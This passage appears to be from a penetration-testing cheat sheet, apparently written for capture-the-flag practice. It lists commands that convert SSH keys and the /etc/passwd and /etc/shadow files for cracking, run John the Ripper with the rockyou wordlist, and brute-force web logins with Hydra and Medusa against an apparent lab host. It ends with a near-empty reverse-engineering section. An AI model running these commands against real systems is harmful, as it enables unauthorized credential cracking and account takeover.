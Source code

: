 

#### Converting for John attacks

Kali> ssh2john file > newfile
Kali> unshadow /etc/passwd /etc/shadow > unshadowed.txt



#### John

Kali> john crackfile --wordlist=/usr/share/wordlists/rockyou.txt



#### BruteForcing

###### Hydra

Kali> hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^&Login=Login:Invalid Password" -V -I



###### Medusa

Kali> medusa -h $TARGET -u admin -P passwords.txt -M http -m DIR:/admin -T 10





# Chapter 8 - Reverse Engineering

> Reverse engineering is taking apart an object to see how it works in order to duplicate or enhance the object. The practice, taken from older industries, is now frequently used on computer hardware and software. Software reverse engineering involves reversing a program's machine code back into the source code that it was written in, using program language statements.
>
> _**— Anonymous**_

Reverse Engineering is hard and I'm bad at it, looking for contributions to this section. Please DM me on [Twitter](https://twitter.com/dostoevskylabs)

[Reverse Engineering - WikiPedia](https://en.wikipedia.org/wiki/Reverse_engineering#Reverse_engineering_of_software)

